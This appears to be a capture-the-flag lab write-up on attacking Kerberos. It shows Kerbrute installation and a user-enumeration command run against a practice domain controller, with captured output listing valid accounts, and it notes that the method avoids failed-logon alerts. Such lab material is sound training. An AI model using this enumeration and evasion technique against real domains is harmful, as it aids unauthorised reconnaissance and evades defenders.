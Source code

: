 You need to add the DNS domain name along with the machine IP to /etc/hosts inside of your attacker machine or these attacks will not work for you - `MACHINE_IP CONTROLLER.local`

### Abusing Pre-Authentication Overview 

By brute-forcing Kerberos pre-authentication, you do not trigger the account failed to log on event which can throw up red flags to blue teams. When brute-forcing through Kerberos you can brute-force by only sending a single UDP frame to the KDC allowing you to enumerate the users on the domain from a wordlist.

### Kerbrute Installation 

1. Download a precompiled binary for your OS - [https://github.com/ropnop/kerbrute/releases](https://github.com/ropnop/kerbrute/releases)
2. Rename kerbrute\_linux\_amd64 to kerbrute
3. chmod +x kerbrute - make kerbrute executable

### Enumerating Users w/ Kerbrute 

Enumerating users allows you to know which user accounts are on the target domain and which accounts could potentially be used to access the network.

1. cd into the directory that you put Kerbrute
2. Download the wordlist to enumerate with here
3. `./kerbrute userenum --dc CONTROLLER.local -d CONTROLLER.local User.txt` - This will brute force user accounts from a domain controller using a supplied wordlist

Now enumerate on your own and find the rest of the users and more importantly service accounts.

```bash
kali@kali:~/CTFs/tryhackme/Attacking Kerberos$ sudo /opt/kerbrute/dist/kerbrute_linux_amd64 userenum --dc CONTROLLER.local -d CONTROLLER.local User.txt

    __             __               __     
   / /_____  _____/ /_  _______  __/ /____ 
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/\|_\|\___/_/  /_.___/_/   \__,_/\__/\___/                                        

Version: dev (1ad284a) - 11/24/20 - Ronnie Flathers @ropnop

2020/11/24 19:04:20 >  Using KDC(s):
2020/11/24 19:04:20 >   CONTROLLER.local:88

2020/11/24 19:04:20 >  [+] VALID USERNAME:       administrator@CONTROLLER.local
2020/11/24 19:04:20 >  [+] VALID USERNAME:       admin1@CONTROLLER.local
2020/11/24 19:04:20 >  [+] VALID USERNAME:       admin2@CONTROLLER.local
2020/11/24 19:04:21 >  [+] VALID USERNAME:       httpservice@CONTROLLER.local
2020/11/24 19:04:21 >  [+] VALID USERNAME:       machine1@CONTROLLER.local
2020/11/24 19:04:21 >  [+] VALID USERNAME:       machine2@CONTROLLER.local
2020/11/24 19:04:21 >  [+] VALID USERNAME:       sqlservice@CONTROLLER.local
2020/11/24 19:04:21 >  [+] VALID USERNAME:       user1@CONTROLLER.local
2020/11/24 19:04:21 >  [+] VALID USERNAME:       user2@CONTROLLER.local
2020/11/24 19:04:21 >  [+] VALID USERNAME:       user3@CONTROLLER.local
2020/11/24 19:04:21 >  Done! Tested 100 usernames (10 valid) in 0.406 seconds

```
